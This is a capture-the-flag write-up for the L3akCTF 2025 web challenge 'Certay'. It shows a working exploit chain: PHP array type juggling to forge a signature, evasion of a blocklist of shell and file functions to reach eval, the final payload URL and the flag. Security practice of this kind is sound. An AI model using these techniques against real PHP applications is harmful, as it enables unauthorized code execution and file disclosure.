 ```yaml
---
title: L3akCTF 2025 - Certay
date: 2025-07-28
lastmod: 2025-07-28T19:59:34+02:00
categories:
  - writeup
  - L3akCTF
tags:
  - web
  - php
authors:
  - Valenter
---
```

A mixture of variable confusion, type juggling and broken crypto, let's take a look.
## Examining the vulnerability

We have a few different files at our disposal, but the only one we care about is `dashboard.php`.

There are a few glaring issues with the code that stand out at a glance

```php
define('yek', $_SESSION['yek']);          
...
if (!isset($_SESSION['yek'])) {           
    $_SESSION['yek'] = openssl_random_pseudo_bytes(
        openssl_cipher_iv_length('aes-256-cbc')
    );
}
```
At first, this could seem like it spells disaster for us, if it wasn't for the fact that `yek` isn't actually used in the code:

```php
if (custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash'])
```
This `custom_sign` function takes in `$yek` instead, which is **undefined**.

Likewise, `safe_sign` uses `iv`, which is also undefined, this causes PHP to take 'iv' as a literal instead
```php
function safe_sign($data) {
    return openssl_encrypt($data, 'aes-256-cbc', KEY, 0, iv);
}
```
(*Note: this behavior has been deprecated in recent versions*)

KEY is hard-coded in `config.php`, but we don't really care about that.

Why?

## The exploit

We can use PHP type juggling to input the key parameter as an **array** instead of a string:

```php
dashboard.php?key[]=foo
```

This makes `safe_sign` return NULL, which in turn grants us the ability to fully manipulate `custom_sign`:

```php
custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === custom_sign($_GET['msg'], NULL, NULL)
```
This is equivalent to

```php
openssl_encrypt($msg, 'aes-256-cbc', NULL, 0, NULL)
```
We can therefore calculate the hash offline for a specific message and use it, along with said message, to access this part of the code:
```php
        echo "<div class='success'>Wow! Hello buddy I know you! Here is your secret files:</div>";
        $stmt = $db->prepare("SELECT content FROM notes WHERE user_id = ?");
        $stmt->execute([$_SESSION['user_id']]);
        $notes = $stmt->fetchAll(PDO::FETCH_ASSOC);
        if (!$notes) {
            echo "<p>Nothing here.</p>";
        } else {
            foreach ($notes as $note) {
                $content = $note['content'];
                if (strpos($content, '`') !== false) {
                    echo 'You are a betrayer!';
                    continue;
                }
                $isBetrayal = false;
                foreach ($dangerous as $func) {
                    if (preg_match('/\b' . preg_quote($func, '/') . '\s*\(/i', $content)) {
                        $isBetrayal = true;
                        break;
                    }
                }
                if ($isBetrayal) {
                    echo 'You are a betrayer!';
                    continue;
                }
                try {
                    eval($content);
                } catch (Throwable $e) {
                    echo "<pre class='error'>Eval error: "
                    . htmlspecialchars($e->getMessage())
                    . "</pre>";
                }
            }
        }
```
But we still have to bypass the blocklist:
```php
$dangerous = [
'exec', 'shell_exec', 'system', 'passthru', 'proc_open', 'popen', '$', '`',
'curl_exec', 'curl_multi_exec', 'eval', 'assert', 'create_function',
'include', 'include_once', 'require', 'require_once', "file_get_contents",
'readfile', 'fopen', 'fwrite', 'fclose', 'unlink', 'rmdir',
'copy', 'rename', 'chmod', 'chown', 'chgrp', 'touch', 'mkdir',
'rmdir', 'fseek', 'fread', 'fgets', 'fgetcsv',
'file_put_contents', 'stream_get_contents', 'stream_copy_to_stream',
'stream_get_line', 'stream_set_blocking', 'stream_set_timeout',
'stream_select', 'stream_socket_client', 'stream_socket_server',
'stream_socket_accept', 'stream_socket_recvfrom', 'stream_socket_sendto',
'stream_socket_get_name', 'stream_socket_pair', 'stream_context_create',
'stream_context_set_option', 'stream_context_get_options'
];
```
But that's easy enough: `highlight_file('/tmp/flag.txt');` will do.

## Putting it all together

Let's compute the hash for message `testmessage` offline:
```php
<?php
$msg  = 'testmessage';                     // scegli tu
$hash = openssl_encrypt('testmessage', 'aes-256-cbc', NULL, 0, NULL);
echo $hash;                        
?>
```

`E/fVzDJCHnsOolo60416CQ==`

The final payload thus becomes:

```php
`dashboard.php?key[]=foo&msg=testmessage&hash=E/fVzDJCHnsOolo60416CQ==`
```

```php
`highlight_file('/tmp/flag.txt');`
```

**`L3AK{N0t_4_5ecret_4nYm0r3333!!5215kgfr5s85z9}`**